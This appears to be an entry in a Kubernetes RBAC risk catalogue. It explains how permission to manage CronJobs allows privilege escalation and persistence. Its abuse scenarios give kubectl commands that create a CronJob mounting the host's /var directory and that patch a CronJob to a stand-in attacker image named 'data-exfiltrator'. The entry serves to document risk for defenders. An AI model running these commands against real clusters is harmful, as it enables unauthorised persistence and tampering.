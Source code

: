 ```yaml
---
id: 1040
title: "Manage CronJobs in a namespace (scheduled privileged execution, persistence)"
description: "Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1040                                                                                                                         |
| Name                    | Manage CronJobs in a namespace (scheduled privileged execution, persistence)                                                 |
| Risk Category           | Elevation of Privilege                                                                                                       |
| Risk Level              | {{< risk High >}}                                                                                                            |
| Role Type               | Role                                                                                                                         |
| API Groups              | batch                                                                                                                        |
| Resources               | cronjobs                                                                                                                     |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                     |
| Tags                    | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new CronJob with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: hostpath-cronjob
spec:
  schedule: "*/5 * * * *" # Every 5 minutes
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hostpath-container
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Hello from cronjob' >> /host-var/log/cron.log"]
            volumeMounts:
            - mountPath: /host-var
              name: host-var
          volumes:
          - name: host-var
            hostPath:
              path: /var
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing CronJob's image to a malicious one.

```bash
kubectl patch cronjob <cronjob-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/malicious-job"}]'
# Example: kubectl patch cronjob data-sync -n production --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/data-exfiltrator"}]'

```
